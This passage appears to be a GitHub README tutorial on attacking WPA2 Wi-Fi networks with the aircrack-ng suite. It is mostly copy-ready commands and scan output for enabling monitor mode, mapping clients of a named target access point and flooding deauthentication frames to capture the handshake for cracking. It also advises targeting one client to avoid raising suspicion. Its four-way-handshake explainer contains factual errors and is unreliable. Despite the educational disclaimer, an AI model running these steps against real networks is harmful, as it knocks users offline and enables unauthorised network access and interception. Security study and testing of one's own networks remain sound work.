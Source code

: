 # Targeted deauthentication and WPA2 cracking

## Introduction

**NOTE:** For educational use to simulate wireless attacks to understand how they work and how to prevent them. Do **NOT** use for malicious intent.

Targeted packet sniffing with `airodump-ng` enables an adversary to monitor network traffic, discovering available clients through sending probes and beacons. Deauthentication frames can then be injected using `aireplay-ng` to force the client to re-connect to the network, capturing the WPA2 handshake in the process. Using `aircrack-ng`, the EAPoL key frames captured in the four-way handshake can derive the PSK (Pre-shared key) with a dictionary attack which can be used to connect to the network, this opens a variety of attacks that can be performed such as ARP poisoining, bypassing HTTPS, bypassing HSTS, DNS spoofing, and injecting Javascript code.

### Extra information - 4 way handshake
<details>
<summary><b>Extra information - 4 way handshake</b></summary><br>
The Pre-Shared Key (PSK) is an authentication key that is used by clients to authorise themselves to a network. The PSK is generated by appending the SSID name and length of the SSID name to the passphrase and hashing it 4096 times.<br>

<ul><li>The first frame is an ANonce (Acknowledgement nunmber once) sent by the access point.</li>
<li>The second frame is an SNonce (Supplicant number once) which is protected by the Message Integrity Check (MIC) sent by the client. Once received by the access point, the access point generates a Pairwise Transient Key (PTK).</li>
<li>The third frame is a Robust Security Network (RSN) sent by the access point that includes information on the cipher suite, group cipher, and authentication method used.</li>
<li>Finally, the process is disestablished by the client.</li></ul>
</details>

### Hardware used:
ALFA AWUS036 NHA
- Chipset: Atheros AR9271
- Frequency: 2.4GHz

### Tools used:
 - aircrack-ng
 - airodump-ng
 - airmon-ng

## Stage 1 - Installing the aircrack-ng suite

Install the dependencies for your operating system from https://github.com/aircrack-ng/aircrack-ng

To install for Ubuntu and Debian distributions

```
sudo apt-get update
sudo apt-get install -y aircrack-ng
```

To install for Red-hat distributions

```
sudo dnf install -y aircrack-ng
```

## Stage 2 - Enabling monitor mode on your wireless adapter

### Method 1 - Manually switching mode of operation.
```
ifconfig wlan0 down
```
Disables your wireless interface.
```
iwconfig wlan0 mode monitor
```
Sets your wireless interface's mode of operation to monitor.
```
ifconfig wlan0 up
```
Enables your wireless interface.

### Method 2 - Using airmon-ng

```
airmon-ng check kill
```
All processes or services that control wireless interfaces will be stopped to prevent interference.
```
sudo airmon-ng start wlan0
```
After running this command your mode of operation will be switched from managed to monitor enabling your wireless interface for capturing all frames in the air that are not directed for the interface.

## Stage 3 - Scanning for nearby networks

Beacons are periodically sent by access points to inform devices of their presence, to capture these beacon frames along with other information of nearby networks we use `airodump-ng`

```
airodump-ng wlan0mon
```
All nearby networks that operate on the 2.4GHz frequency range will be displayed on the terminal with additional information that may help an adversary identify a network with outdated encryption protocols or with a channel that is not congested.

```
CH  2 ][ Elapsed: 6 s ][ 2023-06-13 21:42                                                                      
                                                                                                                
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                
                                                                                                                
**:**:**:**:**:**  -83        9        1    0   6  130   WPA2 CCMP   PSK  NOW6*****                            
**:**:**:**:**:**  -50       17        0    0   6  360   WPA2 CCMP   PSK  Redmi*****                           
28:C0:1B:20:05:6B  -35       10        0    0   1  130   WPA2 CCMP   PSK  EXT2-SKYFA72B                        
**:**:**:**:**:**  -54        8        0    0   1  195   WPA2 CCMP   PSK  TALKTALK7*****                       
**:**:**:**:**:**  -76        5        1    0   1  130   WPA2 CCMP   PSK  SKY*****                             
**:**:**:**:**:**  -48        4       34    0   1  130   WPA2 CCMP   PSK  SKY*****                             
**:**:**:**:**:**  -58        8        0    0   9  195   WPA2 CCMP   PSK  TALKTALK6*****                       
**:**:**:**:**:**  -70        4        0    0  11  130   OPN              LG_Speaker_Setup*****                
**:**:**:**:**:**  -58        4        0    0  11  195   WPA2 CCMP   PSK  TALKTALK7*****                       
```
- **BSSID**:   Basic Service Set Identifier, MAC address of the access point.
- **PWR**:     Power, signal strength of the access point.
- **Beacons**: The number of broadcast frames sent by the access point.
- **#Data**:   The number of data frames captured by the interface.
- **#/s**:     The number of data frames captured per second over 10 seconds.
- **CH**:      The channel number the access point is operating on.
- **MB**:      The maximum transmission speed supported by the access point.
- **ENC**:     The encryption algorithm used by the access point, OPN networks do not use an encryption algorithm.
- **CIPHER**:  The cipher used with the encryption algorithm.
- **AUTH**:    The authentication method used by the access point.
- **ESSID**:   Extended Service Set Identifier, name of the access point.

## Stage 4 - Discovering clients
```
sudo airodump-ng --bssid 28:C0:1B:20:05:6B -c 1 -w psk wlan0mon
```
Scanning clients associated with an access point produces a map of all clients connected to the network, this is useful as the MAC address of connected clients can be used in post connection attacks by spoofing your MAC address and redirecting network traffic to your machine.

- The `-w` flag specifies the path location where the `.cap`, `.csv`, `.kismet.csv`, `.kiscmet.netxml`, and `.log.csv` files will be stored.

```
CH  1 ][ Elapsed: 12 s ][ 2023-06-13 22:08                                                                     
                                                                                                               
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                            
                                                                                                               
28:C0:1B:20:05:6B  -30 100      112       36   17   1  130   WPA2 CCMP   PSK  EXT2-SKYFA72B                    
                                                                                                               
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                              
                                                                                                               
28:C0:1B:20:05:6B DC:80:84:67:84:4A  -36    6e-24      0      162                                              
```
**If you are planning on deauthenticating clients from a target access point, leave this terminal running in the background and open a new terminal.**

## Stage 5 - Deauthenticating clients

If you wish to deauthenticate all clients from an access point

```
sudo aireplay-ng --deauth 10 -a 28:C0:1B:20:05:6B wlan0mon
```

Deauthenticating one client from an access point is a lot less noisy and does not raise as much suspicion.

```
sudo aireplay-ng --deauth 100 -a 28:C0:1B:20:05:6B -c DC:80:84:67:84:4A wlan0mon
```

You can change the value for the `--deauth` flag to send more or less deauthentication frames, a value of 0 will continuously send deauthentication packets until the process is stopped.

Once the handshake 
